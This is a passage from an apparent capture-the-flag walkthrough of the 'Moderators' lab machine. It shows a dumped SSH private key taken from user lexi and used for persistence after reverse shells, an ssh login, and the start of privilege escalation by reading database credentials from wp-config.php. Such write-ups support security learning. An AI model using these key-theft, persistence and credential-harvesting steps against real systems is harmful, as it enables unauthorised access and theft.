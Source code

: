 ```bash
oZX8xyAaoT8QeDew4JnJoNgyf0EV2K25QI/AaNaMBnm1lAZQf7THDt2Kr2mkArs1ZbkkoT
KxiiVYy9J9lL6n/w8OKLkCt08F3c65boQqPYnG/tkHQOysZiJ2+9fjk+q1lXUOcpmU6Lfv
6gC585Q5HlJU/0VraicSXOjJVsuf53noGUUXd2DYZZ/9Rsi+Wjf9DtYAcH972POyGBVyv1
tGvU4+ZmdETQxDlPsEonDPZ0t42mzNVJ6HKu48N+lDx0IZ4rKOkOzm7zJ1r3MW1RaPTNms
ak056/4BZC81NLI/JrOJ8aEWoAr3PKDlKTF6GrhMBMHaW6txX0/GihmCpeuLzvmicYkz5D
6YCOi/qVgmHy1yF8HG1aNsV6d3rhywAAAAMBAAEAAAGAUZ2o8SL9/OojjeW8274QaVURpB
C/kFL5nuH10LrnpfM/7wFTA+zSUqo275OBEHJyegqY2LLbPCmhoMcTFh2B+qMqs7/cLGvC
mSsjG0JlyjC9uw1IqNtuxQ1V9GfLncyo/CmARI1I552wnmgGhEsyuRUULLRHHkBee4E2g0
07/hX9meLdGy6J53f0OBBcCUny0Z+TZguniNgyHgHpYmpwxrcJVmyZx+2GxHzZoKX/yM2V
vzjapmC7ECZLD2DEU+FQua6YHGw2KOs5tiX7BLQLr2R4cqz0akMZZJ0utIEWgDi5dX/EYy
y8HfqtCPWmplcrhtw/DTRVLLCtiL0zzmYMiqvgh6OQZmFcLd0B0jbvBq3fq2l+UAMcUrWp
o1D3Rv/KRIVRog9+7e6r8aRVPf/vIXy+jJlaWcG5Tq7a7wWwGQcqVW3aGnZivvc2aYMWVu
x4G5F1sD9bamasGARP/j0UNTeBNai+Lg1WDIHOzxq8bQhI0Xvdp2reFFzLGn8ePh0hAAAA
wEaFdCpqhzFIqnwgDxrrQJ4QlvysZbMCVgxApzM5SLtAt6jQLBCLrOwe/DYpdFOjIK888U
0IRMzUtQjoP+RNU1PJZtB+neDkw6Kl1Muf4DCnTXr9mwyVlMQHmW1asWiEDr66YqLiKSF6
CZHYRpFM4qUA+w3ABi8OJ+wzs+KDVk4Aw+v+AotbL9JStLBksR5P08sxAivWT/KbXMifJn
LrcrmS/t+QdOG2Vf/7ebYiyBbg1TD4BUAsjKZs8kByr6PoKQAAAMEAyQ1JW3/xrUZyhlWn
NnYVC0xcmSAkl90jHyW5AhR+5neuIu548xnk8a3PSO6j3w7kEmJTiOorwzAdM/u9CqWiaU
h7E4bnCEoakAlftaJsXWUtf1G7ZXcK587Ccxv330XHToH4HqF408oC/mM40/JNJ9Rqa9Io
9azk0fEjIQmjF0GqdNTBfSNqoqZX7HTV34FO+8mj+7fFvrFOnHKsa2FiwADUgEmkw2jJ63
egq/DaGJECdxk9CNDElLVQxBs3X4i/AAAAwQDCIEQcdMnPI9cP5WUOmWWNH6jlpEpsF0qm
0iAt4qjy/3uoN0NdQrX+8laOMIzRVe/Br4Py4NVmRTsMfU5t/1Jz/DXJoy9CcXD5VKkUnU
p668wxSJC8y/5cYKTeE8rwhDXxP0I5ZJztCYf8bL2BWSWF/h4iiUW4mMKyAzvg/iDfjGmb
xA8bieu1cmlE5GJgbXeuxeDfRyzWtLfYCwZU5E9RHz0D+1x1M9P+EaNVQu0p3vsS8rWJly
J/dOO74/zovfUAAAAPbGV4aUBtb2RlcmF0b3JzAQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

Double check that `lexi`'s id_rsa can be used for persistence before closing all reverse connections.
```
➜  moderators vim lexi-id_rsa 
➜  moderators chmod 400 lexi-id_rsa
➜  moderators ssh lexi@moderators.htb -i lexi-id_rsa
lexi@moderators:~$
```

------------------

# ROOT
### Step 1
We are now able to read `wp-config.php`:
```
lexi@moderators:/opt/site.new$ cat wp-config.php
[... snip ...]
/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpresspassword123!!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

